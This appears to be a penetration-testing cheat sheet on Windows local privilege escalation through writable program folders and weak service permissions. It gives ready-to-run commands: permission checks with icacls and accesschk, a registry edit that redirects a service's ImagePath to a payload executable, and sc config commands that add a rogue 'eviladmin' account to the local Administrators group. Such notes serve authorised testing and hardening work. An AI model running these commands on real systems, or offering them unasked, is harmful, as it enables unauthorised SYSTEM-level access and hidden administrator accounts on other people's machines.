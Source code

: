Need to migrate (auto-migration)

### Folder & Service Executable Privileges

- When new folders are created in the root it is writeable for all authenticated users by default. (NT AUTHORITY\Authenticated Users:(I)(M))
- So any application that gets installed on the root can be tampered with by a non-admin user.
    - If binaries load with SYSTEM privileges from this folder it might just be a matter of replacing the binary with your own one.
- https://msdn.microsoft.com/en-us/library/bb727008.aspx

If folder is writable, drop a exe and use "Service Unquoted Path" to execute:
```
icacls "C:\Program Files (x86)\Program Folder"
```

If service exe is writable to everyone, low privilege user can replace the exe with some other binary:
```
icacls example.exe
```

```
F = Full Control
CI = Container Inherit - This flag indicates that subordinate containers will inherit this ACE.
OI = Object Inherit - This flag indicates that subordinate files will inherit the ACE.
```

```
accesschk.exe -dqv "C:\" /accepteula
```

### Insecure Service Permissions

- `exploit/windows/local/service_permissions`

#### Approach 1 - Check permissions of service
```
subinacl.exe /keyreg "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Vulnerable Service" /display
```
If service is editable, change the `ImagePath` to another exe.
```
reg add "HKEY_LOCAL_MACHINE\SYSTEM\ControlSet001\Services\Vulnerable Service" /t REG_EXPAND_SZ /v ImagePath /d "C:\Users\testuser\AppData\Local\Temp\Payload.exe" /f
```

or create a local admin with:
```
sc config "Vulnerable Service" binpath="net user eviladmin P4ssw0rd@ /add
sc config "Vulnerable Service" binpath="net localgroup Administrators eviladmin /add"
```

#### Approach 2 - Check services a given user can edit
```
accesschk.exe -uwcqv "testuser" *
```

